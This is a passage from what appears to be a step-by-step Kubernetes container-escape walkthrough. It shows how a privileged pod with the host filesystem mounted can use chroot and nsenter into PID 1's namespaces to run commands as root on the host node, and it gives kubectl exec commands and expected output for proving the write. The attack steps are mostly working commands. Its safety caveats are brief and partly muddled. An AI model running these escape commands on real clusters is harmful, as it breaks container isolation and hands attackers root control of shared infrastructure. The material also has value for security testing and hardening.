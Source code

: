 This deploys a pod named "verifier-pod" that mounts the host's root directory at `/host`.  *Important:* Make sure this pod is not configured with `privileged: true` and that you understand the security implications of mounting the host's filesystem.

Then execute the following to verify:

```bash
kubectl exec -it verifier-pod -- cat /host/tmp/pwned.txt
```

**Expected Output:**

The output should be:

```
PWNED
```

This confirms that the privileged container was able to modify the host's filesystem.

**Alternative Approach (If creating another pod is not viable):**

This is less reliable as it relies on the node's state which is not guaranteed. From within the privileged container itself, list the contents of the file:

```bash
kubectl exec -it privileged-pod -- bash -c "cat /mnt/host/tmp/pwned.txt"
```

While this shows that the *container* can see the file, it doesn't definitively prove it was written to the host's filesystem.

**Step 5:  Privilege Escalation to Host Root (Demonstration - Highly Destructive)**

This is a very dangerous step and should only be performed in a controlled environment. We will attempt to execute a command directly on the host as root. We use `chroot` to change the root directory to `/mnt/host` and then execute a command.

```bash
kubectl exec -it privileged-pod -- bash -c "chroot /mnt/host nsenter -t 1 -m -u -p -i sh -c 'echo PWNED > /tmp/host_pwned.txt'"
```

**Explanation:**

*   `chroot /mnt/host`: Changes the root directory of the process to `/mnt/host`, effectively making the host's filesystem the new root.
*   `nsenter -t 1 -m -u -p -i sh -c 'echo PWNED > /tmp/host_pwned.txt'`: Executes a shell command in the context of the host's namespaces:
    *   `-t 1`: Targets process ID 1 (the host's init process).
    *   `-m`: Enters the host's mount namespace.
    *   `-u`: Enters the host's UTS namespace.
    *   `-p`: Enters the host's PID namespace.
    *   `-i`: Enters the host's IPC namespace.
    *   `sh -c 'echo PWNED > /tmp/host_pwned.txt'`: Executes the command to create a file `/tmp/host_pwned.txt` on the host's filesystem (as root).

**Expected Output:**

If successful, the command will execute without any errors. The file `/tmp/host_pwned.txt` should be created on the host's filesystem. Again, use a verification pod to confirm.
